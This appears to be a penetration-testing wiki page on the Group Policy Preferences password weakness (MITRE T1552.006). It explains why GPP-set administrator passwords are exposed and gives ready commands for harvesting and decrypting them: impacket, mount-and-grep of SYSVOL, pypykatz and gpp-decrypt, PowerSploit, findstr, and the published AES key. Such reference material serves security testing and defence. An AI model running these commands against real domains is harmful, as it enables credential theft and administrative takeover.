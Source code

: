 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1552.006
---
```


# Group Policy Preferences

## Theory

Windows systems come with a built-in Administrator \(with an RID of 500\) that most organizations want to change the password of. This can be achieved in multiple ways but there is one that is to be avoided: setting the built-in Administrator's password through Group Policies.

* **Issue 1**: the password is set to be the same for every \(set of\) machine\(s\) the Group Policy applies to. If the attacker finds the admin's hash or password, he can gain administrative access to all \(or set of\) machines.
* **Issue 2**: by default, knowing the built-in Administrator's hash \(RID 500\) allows for powerful [Pass-the-Hash](../../lm-and-ntlm/pass-the-hash.md) attacks \([read more](../../lm-and-ntlm/pass-the-hash.md#limitations-tips-and-tricks)\).
* **Issue 3**: all Group Policies are stored in the Domain Controllers' `SYSVOL` share. All domain users have read access to it. This means all domain users can read the encrypted password set in Group Policy Preferences, and since Microsoft published the encryption key around 2012, the password can be decrypted🤷♂.

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, the [Get-GPPPassword.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/Get-GPPPassword.py) \(Python\) script in the impacket examples can be used to remotely parse `.xml` files and loot for passwords.

```bash
# with a NULL session
Get-GPPPassword.py -no-pass 'DOMAIN_CONTROLLER'

# with cleartext credentials
Get-GPPPassword.py 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'

# pass-the-hash
Get-GPPPassword.py -hashes 'LMhash':'NThash' 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'
```

Alternatively, searching for passwords can be done manually \(or with Metasploit's `smb_enum_gpp` module\), however it requires mounting the `SYSVOL` share, which can't be done through a docker environment unless it's run with privileged rights.

Tools like [pypykatz](https://github.com/skelsec/pypykatz) \(Python\) and [gpp-decrypt](https://github.com/BustedSec/gpp-decrypt) \(Ruby\) can then be used to decrypt the matches.

```bash
# create the target directory for the mount
sudo mkdir /tmp/sysvol

# mount the SYSVOL share
sudo mount\
    -o domain='domain.local'\
    -o username='someuser'\
    -o password='password'\
    -t cifs\
    '//domain_controller/SYSVOL'\
    /tmp/sysvol

# recursively look for "cpassword" in Group Policies
sudo grep -ria cpassword /tmp/sysvol/'domain.local'/Policies/ 2>/dev/null

# decrypt the string and recover the password
pypykatz gppass j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw
gpp-decrypt j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw
```
{% endtab %}

{% tab title="Windows" %}
From Windows systems, the GPP password can only be recovered from an authenticated \(i.e. domain user\) context \(see [impersonation](../impersonation.md)\).

[PowerSploit](https://github.com/PowerShellMafia/PowerSploit/)'s [Get-GPPPassword](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1) searches a Domain Controller's SYSVOL share `Groups.xml`, `Services.xml`, `Scheduledtasks.xml`, `DataSources.xml`, `Printers.xml` and `Drives.xml` files and returns plaintext passwords

```bash
Import-Module .\Get-GPPPassword.ps1
Get-GPPPassword
```

This can also be achieved without tools, by "manually" looking for the `cpassword` string in xml files and by then manually decrypting the matches.

```bash
findstr /S cpassword %logonserver%\sysvol\*.xml
```

The decryption process is as follows

```text
1. decode from base64
2. decrypt from AES-256-CBC the following hex key/iv
    Key : 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b
    IV : 0000000000000000000000000000000
3. decode from UTF-16LE
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://adsecurity.org/?p=2288" %}

{% embed url="http://blog.carnal0wnage.com/2012/10/group-policy-preferences-and-getting.html" %}

{% embed url="https://podalirius.net/en/articles/exploiting-windows-group-policy-preferences/" %}

{% embed url="https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be" %}



